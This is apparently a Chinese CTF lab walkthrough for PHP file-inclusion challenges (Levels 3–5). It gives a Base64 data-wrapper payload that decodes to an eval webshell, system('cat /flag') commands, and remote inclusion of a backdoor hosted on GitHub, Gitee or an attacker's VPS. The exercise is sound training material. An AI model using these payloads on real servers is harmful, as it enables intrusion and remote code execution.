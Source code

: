 
A-Za-z0-9的形式很明显符合Base64标准编码表，所以该关卡使用Base64的输入形式进行Bypass即可,但是要注意，由于 = 和 + 被过滤，在输入Payload的时候要注意不要出现 + 以及即时删除 = 

> 根据base64解码规则和php中base64解码宽松性，= 在解码过程开始前会被移除，所以不会影响解码结果，但是+号作为码表的一部分移除会导致解码不正确，注意分别。

Payload: 

**GET**: `?wrappers=;base64,PD9waHAgZXZhbCgkX1BPU1RbJ2hlbGwnXSk7Pz4`, **POST**:`hell=system('cat /flag');`

### Level 4  http:// & https:// 协议

请先回顾引导区内容：

> http/https 协议 (https://www.php.net/manual/zh/wrappers.http.php) — 常规 URL 形式，允许通过 HTTP 1.0 的 GET方法，以只读访问文件或资源，通常用于远程包含。
>
> 注意远程文件需要为可读的文本形式。
>
> 依赖：allow_url_fopen:On;allow_url_include:On;

由于本题提供了现成的文本后门，只需要考虑如何用http去包含即可 —— 127.0.0.1 就行。

当然已经用上了http协议，本关也可以自行包含其他远端上的PHP代码：

> ```php
> <?php @eval($_POST['a']); ?>
> ```
>
> https://raw.githubusercontent.com/ProbiusOfficial/PHPinclude-labs/main/RFI
>
> https://gitee.com/Probius/PHPinclude-labs/raw/main/RFI

如果您有自己的vps也可以包含一个开放在web服务的文本文件：

> http://xxx.xxx.xxx.xxx/x.txt
>
> http://domain.xxx/x.txt

本题解法：**GET**:`?wrappers=127.0.0.1/backdoor.txt` **POST**:`ctf=system('cat /flag');`

### Level 5  http:// & https:// 协议_2

直接访问 challenge.txt ：

> <?php isset($_GET['Key'])&& 1==2 ? echo "<?= system('tac flag.???');?>" : die('Access Denied');?>

1==2 才能执行很明显不行（，本题使用远端包含：

> ```php
> <?php @eval($_POST['a']); ?>
> ```
>
> https://raw.githubusercontent.com/ProbiusOfficial/PHPinclude-labs/main/RFI
>
> https://gitee.com/Probius/PHPinclude-labs/raw/main/RFI
